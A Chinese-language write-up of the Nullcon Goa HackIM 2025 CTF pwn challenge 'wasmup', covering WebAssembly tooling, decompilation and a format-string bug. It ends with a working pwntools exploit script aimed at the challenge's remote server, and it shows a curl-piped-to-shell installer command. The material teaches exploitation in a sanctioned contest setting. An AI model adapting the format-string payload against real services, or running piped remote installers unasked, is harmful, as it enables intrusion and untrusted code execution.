






# 2025-02-01-Nullcon Goa HackIM 2025 CTF

‍

‍

‍

## wat-wasm

​`.wat`​ 文件通常是 WebAssembly (Wasm) 文本格式（WebAssembly Text Format）。如果你想在 Linux 上运行 `.wat`​ 文件，首先需要将它转换为 WebAssembly 二进制格式（.wasm），然后使用 WebAssembly 运行时环境（如 Node.js 或浏览器）运行它。

步骤：

1. **安装** **​`wasi-sdk`​**​ **或** **​`wasmer`​**​ **等工具：**

    * 如果你要直接使用 WebAssembly，可以安装 `wasmer`​ 或 `wasi-sdk`​，它们提供了运行 `.wasm`​ 文件的功能。

    ```bash
    curl https://get.wasmer.io -sSfL | sh
    ```

    或者安装 `wasi-sdk`​ 来编译和运行 WebAssembly。
2. **将**  **​`.wat`​**​ **转换为**  **​`.wasm`​**​ **：**   
    可以使用 `wat2wasm`​ 工具将 `.wat`​ 转换为 `.wasm`​ 文件：

    ```bash
    wat2wasm file.wat -o file.wasm
    ```

    如果没有安装 `wat2wasm`​，你可以从 [WebAssembly Binary Toolkit (wabt)](https://github.com/WebAssembly/wabt) 安装它。
3. **运行**  **​`.wasm`​**​ **文件：**   
    使用 `wasmer`​ 来运行 WebAssembly 文件：

    ```bash
    wasmer run file.wasm
    ```

    或者，如果你有 Node.js 环境，也可以在 JavaScript 中加载和运行 `.wasm`​ 文件。

示例：

假设有一个简单的 `.wat`​ 文件 `example.wat`​：

```wat
(module
  (func $add (param $x i32) (param $y i32) (result i32)
    local.get $x
    local.get $y
    i32.add)
  (export "add" (func $add)))
```

你可以将其转换为 `.wasm`​，然后使用 `wasmer`​ 运行：

```bash
wat2wasm example.wat -o example.wasm
wasmer run example.wasm --invoke add 1 2
```

这将运行 WebAssembly 模块，并返回计算结果。

希望这对你有帮助！

‍

## Tools

* 运行用到的工具

```bash
➜  wasmup proxychains4 -q curl https://get.wasmer.io -sSfL |proxychains -q sh
Welcome to the Wasmer bash installer!

               ww
               wwwww
        ww     wwwwww  w
        wwwww      wwwwwwwww
ww      wwwwww  w     wwwwwww
wwwww      wwwwwwwwww   wwwww
wwwwww  w      wwwwwww  wwwww
wwwwwwwwwwwwww   wwwww  wwwww
wwwwwwwwwwwwwww  wwwww  wwwww
wwwwwwwwwwwwwww  wwwww  wwwww
wwwwwwwwwwwwwww  wwwww  wwwww
wwwwwwwwwwwwwww  wwwww   wwww
wwwwwwwwwwwwwww  wwwww
   wwwwwwwwwwww   wwww
       wwwwwwww
           wwww

downloading: wasmer-linux-amd64
Latest release: v5.0.4
Downloading archive from https://github.com/wasmerio/wasmer/releases/download/v5.0.4/wasmer-linux-amd64.tar.gz
######################################################################## 100.0%
installing: /root/.wasmer
Updating bash profile /root/.zshrc
we've added the following to your /root/.zshrc
If you have a different profile please add the following:

# Wasmer
export WASMER_DIR="/root/.wasmer"
[ -s "$WASMER_DIR/wasmer.sh" ] && source "$WASMER_DIR/wasmer.sh"
check: wasmer 5.0.4 installed successfully ✓                                                                                                                                                        wasmer will be available the next time you open the terminal.
If you want to have the commands available now please execute:

source /root/.wasmer/wasmer.sh
➜  wasmup  
```

安装

```bash
sudo apt-get install wabt

```

* 测试运行

```bash
$ wat2wasm wasmup.wat -o wasmup.wasm # wat 转 wasm
$ wasmup wasmer run wasmup.wasm      # 运行
> Are you all alone?
111

> haha. What you doing son?
```

‍

‍

## HackIMCTF-2025-Pwn-wasmup

### 程序分析

附件给了一个 wat 文件

```c
wasmup.wat
```

​​

‍

wat 转成 wasm 后 使用 JEB 工具，就可以反编译 c 代码进行分析了

‍

```c
// Stale decompilation - Refresh this view to re-decompile this code
int main() {
    int v0 = __g0 - 112;

    __g0 -= 112;
    *(int*)(v0 + 108) = 0;
    *(int*)(v0 + 103) = *(int*)&aFunc____p_[7];
    *(long long*)(v0 + 96) = *(long long*)&aFunc____p_[0];
    *(short*)(v0 + 92) = *(short*)&a___s_[&gvar_4];
    *(int*)(v0 + 88) = *(int*)&a___s_[0];
    *(int*)(v0 + 60) = 1; // 这里赋值 offset 1 
    *(int*)(v0 + 56) = 2;
    nobuffer();
    while(1) {
        int v1 = *(int*)(*(int*)(v0 + 60) * &gvar_4 + (int)&gvar_40000000)(v0 + 64);
        *(int*)(v0 + &gvar_20) = v1;
        printf(v0 + &gvar_20, v0 + 88);
        *(char*)(v0 + 64) = 0;
        *(int*)(v0 + 48) = v0 + 64;
        scanf(v0 + 48, "%[^\n]");
        int v2 = getchar(gvar_C20);
        if(v2) {
            break;
        }
        int v3 = r_to_5(gvar_C20);
        if(v3) {
            break;
        }
        int v4 = strcmp("Wazzsahahahrp", v0 + 64);
        if(!v4) {
            break;
        }
        __f70();
        int v5 = strcmp("debug", v0 + 64);
        if(v5) {
            continue;
        }
        *(int*)v0 = v0 + 60;
        printf(v0, v0 + 96);
        *(int*)(v0 + 16) = v0 + 56;
        printf(v0 + 16, v0 + 96);
    }

    exit(0);
    jump 0;
}

```

‍

```c
int v1 = *(int*)(*(int*)(v0 + 60) * &gvar_4 + (int)&gvar_40000000)(v0 + 64);
v0 + 60 上面赋值 是1  也就是调用 wassup
如果我们可以修改 这个 1 为 2 也就可以 执行 wassflag 了
```

​​

‍

### 格式字符串漏洞

溢出覆盖原本的 message 然后格式话字符串漏洞

​​

‍

输入 ABCD后 搜索字符串 可以定位到stack位置 , 可以找到变量的对应位置

​​

​​

可以看到 输入的 buf 距离 `> %s`​ 有 0x18 个字符，这里其实可以覆盖 下面的buf,造成格式话字符串漏洞，

‍

1. 经过测试可以得知我们输入的在第9个位置

```python
ru(b'> Are you all alone?\n')
pay  = 'A' * 0x18 + '%p-' * 9
sl(pay)
# 0x498-0-0-0-0x11bb0-0-0x2-0x1-0x41414141-
```

‍

2. 其实 debug 给的 16进制字符串的作用就是stack offset

格式化字符串的时候可以看到， 并不是 吧 0x41414141 当作一个地址，而是 当成 一个 偏移，

```python
ru(b'> Are you all alone?\n')
pay  = 'AAAABBBBCCCCDDDDEEEEFFFF' + '%p' * 8 + '%s'

sl(pay)
```

​​

‍

利用上面的那一点我们就可以去确定 idx 1 的 offset 然后 使用格式字符串漏洞 去修改 这个 1， 改成2 就可以调用 wassflag

​​

### exploit

‍

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))


context(log_level = 'debug',terminal='tmux splitw -h -l 170'.split(' '))
#context(log_level = 'info',terminal='tmux splitw -h -l 170'.split(' '))
cmd = 'wasmer run wasmup.wasm'.split(' ')
#io = process(cmd)
io = remote('52.59.124.14',5005)


#gdb.attach(io)

#pay  = 'A' * 0x18 + 'true, true'
ru(b'> Are you all alone?\n')
pay  = p32(0x11bb0-4) + b'A' * 0x1C + b'%p'*8 +b'-'*(0x102-0x1e) +b'%hhn'
sl(pay)

s('\n')

itr()
```

‍

前后对比

​​

​​

‍

​​

‍
